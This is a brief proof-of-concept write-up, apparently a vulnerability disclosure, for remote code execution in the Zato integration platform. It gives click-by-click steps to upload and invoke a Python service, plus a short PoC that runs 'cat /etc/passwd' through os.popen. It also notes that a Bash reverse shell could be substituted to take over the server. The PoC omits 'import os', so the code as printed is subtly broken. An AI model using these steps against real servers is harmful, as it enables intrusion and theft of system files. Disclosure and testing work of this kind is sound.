 # zato-rce
- Login in Zato;
- Click "Services"-"List services"-"Upload services"
- Upload PoC Python Script(in attachment)
- Click uploaded files and click "Invoker",last submit.
- Server execute code.If I change the command to "Bash Reverse Shell" ,i will gain server privileges.

PoC:
```
from zato.server.service import Service
import json

class OeNotice(Service):
    def handle(self):
        self.response.payload={'result':os.popen("cat /etc/passwd").read()}
```

![](./20211013134358.png)
![](./20211013134517.png)
